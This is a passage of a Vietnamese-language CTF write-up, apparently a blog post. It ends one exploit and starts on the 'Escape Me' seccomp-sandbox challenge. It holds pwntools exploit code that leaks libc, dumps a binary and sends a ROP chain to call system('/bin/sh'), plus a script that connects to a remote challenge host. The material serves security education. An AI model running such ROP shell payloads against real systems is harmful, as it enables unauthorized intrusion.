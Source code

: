 ```py
# canary_addr = libc.address-0x2898
sh = libc.address + bin_sh
print("libc @ " + hex(libc.address))
print("/bin/sh @ " + hex(sh))
print("system @ " + hex(libc.sym["system"]))

# ilen = canary_addr >> 8*3
# offset = ((ilen<<8*3) ^ canary_addr) 
pause()
io.sendlineafter(b"> ", b"cat " + file + b" -9728 4096")

sleep(2)
leak_binary = io.recv(4096)

md = capstone.Cs(capstone.CS_ARCH_X86, capstone.CS_MODE_64)
with open("bin", "wb") as f_bin:
    f_bin.write(leak_binary)

for i in md.disasm(leak_binary, 0x1000):
    print("0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str))


io.sendlineafter(b"> ", b"exit")
io.sendline(b"A"*264 + p64(libc.address + pop_rdi + 1) + p64(libc.address + pop_rdi) + p64(sh) + p64(libc.sym["system"]))

io.interactive()
```

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/f445a504-547a-4ee0-b645-d67a365bd3c4)

## Escape Me

Bài này thực hiện tạo một sandbox process bằng fork, sau đó sử dụng seccomp filter để ngăn ta sử dụng các syscall ngoại trừ `read`, `write`, `fstat`, `exit_group`, `mmap`, `munmap`, `mprotect` và cho ta chạy shellcode trên process đó. Ban đầu ta nghĩ đây là một bài syscall bypass, tuy nhiên nếu để ý kỹ thì có một bug buffer overflow xảy ra khi hàm `broker_process` nhận output được trả về từ shellcode của ta

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/713c4d82-23d6-42bd-9045-1a201578ba5b)

Challenge thực hiện `mmap` ra một vùng nhớ và gắn với để cho shellcode ghi output vào với 4 byte đầu sẽ là length của output và còn lại là data, ở đây ta có thể control `out_sz` tùy ý, từ đó dẫn tới stack-based buffer overflow. VÌ bài này cũng không cho ta biết libc, nên ta sẽ leak libc thông qua GOT, sau đó dùng cách tương tự bài `file_storage` để xác định libc và cuối cùng là trả về data để overflow biến `output` và thực hiện ROP để control RIP.

```python
from pwn import *
from pwn import u64, u32, p64, p32, unpack, asm

if args.REMOTE:
    io = remote("escape_me.pwnable.vn", 31338)
    pop_rdi = 0x2a3e5
    system = 0x50d60
    sh = 0x1d8698
    read_offset = 0x114980
else:
    io = process("./escape_me")
    pop_rdi = 0x2a3e5
    system = 0x50d70
    sh = 0x1d8678
    read_offset = 0x1147d0

```